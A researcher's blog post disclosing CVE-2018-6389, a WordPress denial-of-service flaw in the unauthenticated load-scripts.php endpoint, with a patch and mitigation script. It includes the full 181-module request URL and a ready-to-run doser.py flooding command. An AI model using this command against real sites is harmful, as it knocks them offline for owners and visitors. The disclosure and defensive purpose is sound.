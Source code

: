 ```yaml
---
layout: post
title: How to DoS 29% of the World Wide Websites - CVE-2018-6389
---
```


![](https://1.bp.blogspot.com/-TxfjrTsnvxk/WnhCp6kqlEI/AAAAAAAAvr0/LyR43W2z-kQDwswUX7YzCCFjjZayP_4cwCLcBGAs/s728-e100/wordpress-dos-attack-hackingl.png)<br>According to wordpress.com, the WordPress platform powers 29% of the worldwide internet websites.

In this article I am going to explain how Denial of Service can easily be caused to almost any WordPress website online, and how you can patch your WordPress website in order to avoid this vulnerability being exploited.

It is important to note that exploiting this vulnerability is illegal, unless you have permission from the website owner.

  

While browsing a WordPress website, my attention was drawn to the following URL:

[https://WPServer/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1](https://wpserver/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1)

  

The load-scripts.php file receives a parameter called load\[\], the parameter value is 'jquery-ui-core'. In the response, I received the JS module 'jQuery UI Core' that was requested, as demonstrated in the following image:

  

[![](https://2.bp.blogspot.com/-4F7k687LhtY/WnNOLb2JEeI/AAAAAAAAeWo/Zg1InG9enfovEub5JguGQc7ODGDVpxVnwCPcBGAYYCw/s400/wordpress_DoS90975.jpg)](https://2.bp.blogspot.com/-4F7k687LhtY/WnNOLb2JEeI/AAAAAAAAeWo/Zg1InG9enfovEub5JguGQc7ODGDVpxVnwCPcBGAYYCw/s1600/wordpress_DoS90975.jpg)

  

  
  

What can be concluded from this URL, is that it is probably meant to supply users with some JS modules. In addition, the load\[\] parameter is an array, which means that it is possible to provide multiple values and be able to get multiple JS modules within the response.

  

As [WordPress is open-source](https://github.com/wordPress/WordPress), it is easy to perform code review and explore this feature. After doing so, I realized that this feature was designed to economize the amount of requests sent from the client while trying to load JS or CSS files, so when the browser needs to load multiple JS/CSS files, it will use load-scripts.php (for JS) or load-styles.php (for CSS files) and the browser will get multiple JS/CSS files through a single request- so performance-wise it is better to do so and the page will load faster. This feature was designed only for the admin pages, but is also used on the wp-login.php page, so no authentication is enforced on these files.  
  

First, I tried to manipulate this feature and provide a list of the 'jquery-ui-core' value multiple times as follows:

[https://WPServer/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core&ver=4.9.1](https://wpserver/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core&ver=4.9.1)

  

I thought I might make the server read the same file over and over again and append it to the same response, but the use of the 'array\_unique' function removes duplicates in arrays so that didn’t succeeded:  
  

[![](https://2.bp.blogspot.com/-dHeIDEGuHso/WnNRpQcDc0I/AAAAAAAAeW0/PMNGAIBRM6gnrxNlA8XPaEZ7cTP_nrLQACPcBGAYYCw/s400/wordpress_DoS29538.jpg)](https://2.bp.blogspot.com/-dHeIDEGuHso/WnNRpQcDc0I/AAAAAAAAeW0/PMNGAIBRM6gnrxNlA8XPaEZ7cTP_nrLQACPcBGAYYCw/s1600/wordpress_DoS29538.jpg)

  

  

  

I kept exploring the code and found something that looked interesting in the following code snippet, which I wanted to investigate further:

  

[![](https://1.bp.blogspot.com/-V7mYFyTsoRE/WnNShajANyI/AAAAAAAAeW8/GdX9vMUBui4cTVXl5pbT4QA7PgQm6MyJgCPcBGAYYCw/s400/wordpress_DoS13936.jpg)](https://1.bp.blogspot.com/-V7mYFyTsoRE/WnNShajANyI/AAAAAAAAeW8/GdX9vMUBui4cTVXl5pbT4QA7PgQm6MyJgCPcBGAYYCw/s1600/wordpress_DoS13936.jpg)

  

There is a well-defined list ($wp\_scripts), that can be requested by users as part of the load\[\] parameter. If the requested value exists, the server will perform an I/O read action for a well-defined path associated with the supplied value from the user.

  

The wp\_scripts list is hard-coded and is defined in the [script-loader.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php) file:

  

[![](https://4.bp.blogspot.com/-y8i3CuXCPeg/WnNTlVC6zsI/AAAAAAAAeXI/sbEG8V8B-_8rcekg-MFhDbbhzIgo5WRHgCPcBGAYYCw/s640/wordpress_DoS84477.jpg)](https://4.bp.blogspot.com/-y8i3CuXCPeg/WnNTlVC6zsI/AAAAAAAAeXI/sbEG8V8B-_8rcekg-MFhDbbhzIgo5WRHgCPcBGAYYCw/s1600/wordpress_DoS84477.jpg)

  

  

There are 181 values in this list:
```javascript
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
  

I wondered what would happen if I sent the server a request to supply me every JS module that it stored? A single request would cause the server to perform 181 I/O actions and provide the file contents in the response.  
  
So I tried it, I sent the request to the server:

  

[![](https://2.bp.blogspot.com/-Y3-moeyXvPQ/WnNV7mKCU5I/AAAAAAAAeXU/RhU4-o_eYs8657dpBYTOUQSTshEqOmcMACPcBGAYYCw/s640/wordpress_DoS83402.jpg)](https://2.bp.blogspot.com/-Y3-moeyXvPQ/WnNV7mKCU5I/AAAAAAAAeXU/RhU4-o_eYs8657dpBYTOUQSTshEqOmcMACPcBGAYYCw/s1600/wordpress_DoS83402.jpg)

  

The server responded after 2.2 seconds, with almost 4MB of data, which made the server work really hard to process such a request.

So I decided to use [doser.py](https://github.com/quitten/doser.py), a simple tool that I wrote, designed to constantly repeat requests (yes, I know Python threads suck, but I still love Python!) in order to cause DoS, and guess what? it worked! :)
```bash
python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
```
  

As long as I kept sending those requests to the server, it was too busy to handle any other request, and I had effectively (and easily) caused DoS.

  

It is time to mention again that load-scripts.php does not require any authentication, an anonymous user can do so.

After ~500 requests, the server didn't respond at all any more, or returned 502/503/504 status code errors like:  
  

[![](https://2.bp.blogspot.com/-CZfC8TqhR7I/WnSt5WhMn1I/AAAAAAAAecw/3yc5vXKh-G4NIEOFtqUSjL_ap7c9ipK8wCPcBGAYYCw/s320/503.jpeg)](https://2.bp.blogspot.com/-CZfC8TqhR7I/WnSt5WhMn1I/AAAAAAAAecw/3yc5vXKh-G4NIEOFtqUSjL_ap7c9ipK8wCPcBGAYYCw/s1600/503.jpeg)

  

[![](https://2.bp.blogspot.com/-klcJxiz-FQg/WnSufnQqUSI/AAAAAAAAec8/6tvTo7IZtkMiPdFTAwrJK5fSJuyZhZcJQCPcBGAYYCw/s320/522.jpeg)](https://2.bp.blogspot.com/-klcJxiz-FQg/WnSufnQqUSI/AAAAAAAAec8/6tvTo7IZtkMiPdFTAwrJK5fSJuyZhZcJQCPcBGAYYCw/s1600/522.jpeg)

  

[![](https://2.bp.blogspot.com/-BMq_fAPVm7k/WnStEObY-mI/AAAAAAAAeco/ih28vCrQWocElxfv3DH5DA3QDSpAxglHQCPcBGAYYCw/s320/wordpress_DoS85318.jpg)](https://2.bp.blogspot.com/-BMq_fAPVm7k/WnStEObY-mI/AAAAAAAAeco/ih28vCrQWocElxfv3DH5DA3QDSpAxglHQCPcBGAYYCw/s1600/wordpress_DoS85318.jpg)

  

  

[Full PoC video](https://www.youtube.com/watch?v=nNDsGTalXS0)
  

  

WordPress has a bug bounty program, and I contacted them about this issue, even though I knew DoS vulnerabilities are out-of-scope, I reported it through HackerOne and explained the vulnerability, I thought they would understand that there is a security issue here and properly address it. After going back and forth about it a few times and my trying to explain and provide a PoC, they refused to acknowledge it and claimed that:  
"This kind of thing should really be mitigated at the server or network level rather than the application level, which is outside of WordPress's control."

  

Even though I was extremely frustrated about them not acknowledging this as a vulnerability, I kept on exploring how I can mitigate this attack, and [forked WordPress project and patched it](https://github.com/quitten/WordPress) so no one but authenticated users can access the load-\*.php files, without actually harming the wp-login.php file functionality. So if you are currently using, or are about to use, WordPress, I would highly recommend you use the patched version.

In case you already have a WordPress website on a Linux machine, I created [this bash script](https://github.com/Quitten/WordPress/blob/master/wp-dos-patch.sh) that modifies the relevant files in order to mitigate the vulnerability.

  
